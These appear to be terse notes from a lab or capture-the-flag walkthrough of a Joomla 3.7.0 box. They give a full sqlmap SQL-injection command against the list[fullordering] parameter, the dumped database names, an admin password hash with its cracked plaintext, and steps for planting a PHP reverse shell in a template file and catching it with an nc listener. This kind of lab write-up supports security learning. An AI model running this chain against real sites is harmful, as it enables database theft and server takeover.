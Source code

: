 Joomla 3\.7\.0 vulnerable to SQL

-  searchsploit \-m php/webapps/42033\.txt
-  sqlmap \-u "[http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list\[fullordering\]=updatexml](#http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml)
" \-\-risk=3 \-\-level=5 \-\-random\-agent \-\-dbs \-p list\[fullordering\] \-\-dump\-all
-  dumps all databases
available databases \[5\]:
\[\*\] information\_schema
\[\*\] joomladb
\[\*\] mysql
\[\*\] performance\_schema
\[\*\] sys

-  admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
-  admin:snoopy

-  log into Joomla
-  templates/protostar/error\.php -  php\_reverse\_shell\.php
-  nc \-nlvp 1337


-  navigate to http://192\.168\.0\.106/templates/protostar/error\.php  